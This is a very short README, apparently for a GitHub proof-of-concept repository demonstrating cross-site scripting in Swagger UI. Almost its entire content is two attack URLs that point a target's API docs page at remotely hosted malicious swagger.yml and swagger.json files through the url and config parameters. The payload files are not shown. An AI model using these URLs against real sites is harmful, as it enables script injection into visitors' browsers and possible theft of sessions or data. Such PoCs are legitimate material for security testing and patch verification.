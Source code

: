 # swagger-ui-xss
PoC to Swagger UI XSS

- https://target.com/api/docs?url=https://raw.githubusercontent.com/luca-regne/swagger-ui-xss/main/swagger.yml 
- https://target.com/api/docs?config=https://raw.githubusercontent.com/luca-regne/swagger-ui-xss/main/swagger.json
